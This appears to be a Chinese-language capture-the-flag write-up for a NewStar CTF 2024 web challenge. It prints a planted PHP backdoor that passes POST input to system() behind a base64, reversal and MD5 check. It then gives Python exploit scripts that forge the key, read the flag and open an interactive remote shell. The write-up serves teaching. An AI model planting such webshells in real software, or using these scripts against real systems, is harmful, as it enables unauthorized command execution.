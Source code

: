 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 智械危机

`index.php` 的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看 `robots.txt`，得到了路由 `/backd0or.php`

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的 PHP 代码阅读，也对编写脚本、使用 WebShell 的能力进行初步的考查。

`cmd` 参数是**Base64 编码后**的 `system` 命令。

`key` 的验证逻辑：将<strong>`cmd` 参数值</strong>字符串翻转后，计算 MD5 哈希，并与 Base64 解码后的 `key` 进行比较。

因此我们将这个过程反过来，就可以得到解题 EXP：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

EXP 使用了 `requests` 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如 HackBar、BurpSuite 等。

请各位新生**打好编程基础，不要浮躁**，部分新生私聊的问题我完全无法理解。这题的代码逻辑哪怕只懂一点英语也该看懂了，变量名称我都没做混淆。GPT可能会胡编，但是完全可以给你提取出足够的关键词用于搜索。

这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag 位置没赌对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式 shell：

![这里理应是配图](/assets/images/wp/2024/week1/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
